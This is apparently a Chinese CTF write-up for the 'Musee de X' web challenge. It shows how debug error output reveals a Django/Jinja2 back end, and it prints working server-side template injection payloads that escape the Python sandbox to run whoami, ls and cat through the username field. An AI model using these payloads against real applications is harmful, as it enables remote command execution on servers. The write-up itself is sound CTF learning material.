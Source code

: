 # Musee de X

## Description

http://106.75.72.168:8888/

X在卢浮宫旁开了一个博物馆，欢迎社会各界人士捐献藏品。

## Solution

首先是注册，接着就是捐献了。捐献的时候随便输入一个 url，就会出现报错信息。因为这个网站的后台开启了 debug 模式，所以可以看到报错信息。通过报错信息可以看到后台是 django,还可以看到一个比较重要的信息，就是模板是使用 Jinjia2.

[![iSLMcD.md.png](https://s1.ax1x.com/2018/09/04/iSLMcD.md.png)](https://imgchr.com/i/iSLMcD)

通过以上的信息，差不多可以判断出这是一个 python 沙箱绕过的题目。在 python2.7 的环境下，输入以下命令就可以执行系统命令 whoami：

```shell
 [].__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].popen("whoami").read()
```

捐献之后，用户名会回显在图片之上：

[![iSLH4x.md.png](https://s1.ax1x.com/2018/09/04/iSLH4x.md.png)](https://imgchr.com/i/iSLH4x)

另外还有一点需要注意，捐献的用户名和登陆的用户名必须一致，否则就会提示 `Screw u, hacker!`。现在我们的思路就是通过用户名来进行注入，然后将结果回显到图片上。我们可以找到一张[全黑的图片](http://telecom.26923.com/download/pic/000/325/bce2e25c7e12c1567faf9a39979a9f7e.jpg)。首先尝试使用 ls 来列出所有的文件夹：

```shell
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].popen("ls").read() }}
```

[![iSOK5q.md.png](https://s1.ax1x.com/2018/09/04/iSOK5q.md.png)](https://imgchr.com/i/iSOK5q)

通过这个命令可以把文件路径列出来，我们可以看到一个文件 flag_92a3ed4f844d，接着可以通过 cat 来将 flag 信息显示出来：

```shell
{{ [].__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].popen("cat flag_92a3ed4f844d").read() }}
```

[![iSO4Rf.md.png](https://s1.ax1x.com/2018/09/04/iSO4Rf.md.png)](https://imgchr.com/i/iSO4Rf)


